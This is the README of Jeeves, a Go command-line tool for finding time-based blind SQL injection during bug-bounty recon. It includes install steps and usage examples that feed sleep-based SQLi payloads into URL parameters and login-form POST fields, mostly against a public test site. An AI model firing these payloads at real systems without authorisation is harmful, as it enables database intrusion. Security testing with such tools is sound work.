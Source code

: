 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Making Post Request](#post-request)
  - [Multiple ways of usage](#another-ways-of-usage)


## - Installation & Requirements:

Installing Jeeves 💀

```bash
$ go install github.com/ferreiraklet/Jeeves@latest
```
OR
```bash 
$ git clone https://github.com/ferreiraklet/Jeeves.git
$ cd Jeeves
$ go build jeeves.go
$ chmod +x jeeves
$ ./jeeves -h
```
<br>


## - Usage & Explanation:
In Your recon process, you may find endpoints that can be vulnerable to sql injection,
Ex: https://redacted.com/index.php?id=1
    
### Single urls

```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```
<br>
In --payload-time you must use the time mentioned in payload
<br>


### From list 

```cat targets | jeeves --payload-time 5```
  
    <br>
    
### Adding Headers

Pay attention to the syntax! Must be the same =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"
```

### Using proxy

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 --proxy "http://ip:port"
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -p "http://ip:port"
```
<br>

Proxy + Headers =>
```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"
```

### Post Request

Sending data through post request ( login forms, etc )

Pay attention to the syntax! Must be equal! ->

```bash
echo "https://example.com/Login.aspx" | jeeves -p 10 -d "user=(select(0)from(select(sleep(5)))v)&password=xxx"
echo "https://example.com/Login.aspx" | jeeves -p 10 -H "Header1: Value1" -d "username=admin&password='+(select*from(select(sleep(5)))a)+'" -p "http://yourproxy:port"
```

### Another ways of Usage

You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght

<br>

**Command line flags**:
```bash
 Usage:
 -t, --payload-time,  The time from payload
 -p, --proxy          Send traffic to a proxy
 -c                   Set Concurrency, Default 25
 -H, --headers        Custom Headers
 -d, --data           Sending Post request with data
 -h                   Show This Help Message
```  
<br> 

Using with sql payloads wordlist

```bash
cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves -t 5;done
```

OBS: 
* Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
* Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )

<br>

## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.


## Please, also check these => <br>
> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [SQLMAP](https://github.com/sqlmapproject/sqlmap)

> [Blisqy](https://github.com/JohnTroony/Blisqy) Header time based SQLI
